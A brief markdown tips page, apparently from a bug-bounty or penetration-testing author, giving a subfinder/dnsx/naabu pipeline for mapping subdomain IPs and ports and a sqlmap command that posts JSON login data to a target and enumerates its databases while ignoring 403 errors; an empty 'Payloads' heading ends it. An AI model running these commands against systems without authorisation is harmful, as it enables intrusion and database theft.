 # Social Tips and Tricks

# Commands
1. My way to get IPs with ports on subdomain list ☪️🛡️

subfinder -d <URL> -silent | dnsx -a -ro -silent | sort -u | naabu -silent | tee ips.txt

2. Someone asked me how to pass JSON data in SQLMAP, here is what I used:

sqlmap -u 'https://lnkd.in/d4TY3Cke' --data '{"User":"abcdefg","Pwd":"Abc@123"}' --random-agent --ignore-code=403 --dbs --hex

--ignore-code=403 ==> Bypass HTTP 403 Forbidden



# Payloads
